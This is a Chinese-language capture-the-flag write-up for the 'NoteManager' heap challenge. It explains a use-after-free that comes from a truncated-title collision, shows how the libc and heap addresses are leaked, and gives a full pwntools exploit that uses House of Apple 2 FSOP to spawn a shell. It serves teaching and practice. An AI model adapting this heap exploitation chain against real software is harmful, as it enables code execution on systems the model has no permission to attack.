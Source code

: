 ```yaml
---
title: 矩阵杯2024 - NoteManager 
date: 2024/7/27 16:30:00
updated: 2024/7/27 16:30:00
tags:
    - linked list
    - House of Apple 2
    - libc2.35
thumbnail: /assets/matrix2024/notedel.png
excerpt: 通过链表的UAF漏洞，利用哈希碰撞和字符串长度差异，成功泄露libc和heap地址并获得shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.7|

## 解题思路

经典菜单题，但是有一个头节点作为“全局变量”，使用链表来存放各个节点。
判断两个节点是否相同有2个方法：比较哈希值和字符串内容。审计代码不难发现，
在删除节点时如果存在两个相同节点，就能产生uaf（以下配图暂时忽略哈希机制）

![note delete](/assets/matrix2024/notedel.png)

除了在新增时使用哈希和`strcmp`同时判断，其余操作只判断哈希是否相同，
那么如何找到一个哈希相同，而`strcmp`也相同的两个字符串呢？

> 一开始我的想法是哈希碰撞，爆了一晚上没爆出来，早上起来想到肯定不是这么做的

再次审计代码，发现有漏洞可循：

```c
...
    // 读入title时长度是原长
    pcVar2 = fgets(title,0x100,stdin);
...
    // 计算哈希时长度是原长
    hasher = hash(title);
        for (cnote = *gnote; cnote != NULL; cnote = cnote->prev) {
            // 判断strcmp时用的是原长
            if ((cnote->hash == hasher) && (iVar1 = strcmp(cnote->title,title), iVar1 == 0)) {
...
        // 但是做字符串拷贝的时候只取了0x1f长
        strncpy((char *)note,title,0x1f);
...
```

由此可以得知，只要输入长度超过31的字符串，那么输入时就不会被判为相同，
同时它们的哈希值也是一样的，那么我们就能构造出上图的条件做uaf了

有了uaf就可以考虑怎么泄露了。首先输入的内容长度可以达到0x1000，
而稍后使用的`strdup`实际上会调用`malloc`产生chunk，size就是输入内容的长度，
因此可以很轻松地得到libc和heap基地址

最后起一个shell，用House of Apple 2打FSOP即可

> 一开始用onegadget，结果试了一圈都不行

edit时使用`strcpy`，所以需要一个`\0`一个`\0`地写

此外在造成uaf利用后，无法再写入2+个堆块，而想要利用uaf则需要2个堆块，
因此应一口气分配好相关堆块，最后利用uaf。以下是图示

![note add warning](/assets/matrix2024/noteadd.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './NoteManager'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.7_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(title:bytes, cont:bytes):
        sh.sendlineafter(b'Choose', b'1')
        sh.sendlineafter(b'title', title)
        sh.sendlineafter(b'content', cont)

    def deln(title:bytes):
        sh.sendlineafter(b'Choose', b'2')
        sh.sendlineafter(b'title', title)

    def edit(title:bytes, cont:bytes):
        sh.sendlineafter(b'Choose', b'3')
        sh.sendlineafter(b'title', title)
        sh.sendlineafter(b'content', cont)

    def show() -> bytes:
        sh.sendlineafter(b'Choose', b'4')
        sh.recvuntil(b'option: ')
        return sh.recvuntil(b'NoteManager', True)

    def eout():
        sh.sendlineafter(b'Choose', b'5')

    PROTECT_PTR = lambda pos, ptr: (pos >> 12) ^ ptr

    addn(b'root', b'!')
    addn(b'fake file', b't'*0x100)
    addn(b'0'*33, b'x'*0x18)
    addn(b'0'*33, b'x'*0x500)
    addn(b'1'*33, b'x'*0x28) # guard chunk to prevent 0x500-size chunk being merged
    addn(b'1'*33, b'x')
    addn(b'head', b'head')
    deln(b'0'*33)
    val = show()

    # look for 4rd Title
    idx = val.find(b'Title: ', 5)
    idx = val.find(b'Title: ', idx + 5)
    idx = val.find(b'Title: ', idx + 5)
    heapBase = u64(val[idx + 7:idx + 12] + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    arena = 0x21ac80
    idx = val.find(b'Content: ', idx)
    mainArena = u64(val[idx + 9:idx + 15] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - arena
    libc.address = libcBase
    oneGadget = libcBase + 0x10d9c2
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))

    def write0(content:bytes, offset:int):
        for leng, b in enumerate(content):
            if b == 0:
                break
        for i in range(7, leng, -1):
            edit(b'fake file', b'0'*(offset + i) + b'\0')
        edit(b'fake file', b'0'*offset + content)

    write0(p64(heapBase + 0x360), 0xe0)
    write0(p64(libc.symbols['_IO_wfile_jumps']), 0xd8)
    write0(p64(0), 0xc0)
    write0(p64(heapBase + 0x360), 0xa0)
    write0(p64(libc.symbols['system']), 0x68)
    write0(p64(0), 0x30)
    write0(p64(1), 0x28)
    write0(p64(0), 0x20)
    write0(p64(0), 0x18)
    write0(b'  sh;\0', 0)

    deln(b'root')
    deln(b'1'*33)
    edit(b'1'*33, p64(PROTECT_PTR(heapBase + 0x9c0, libc.symbols['_IO_list_all'])))
    addn(b'adjusting', b'x')
    addn(b'more adjust', p64(heapBase + 0x360))

    eout()
    sh.clean()
    sh.interactive()
```


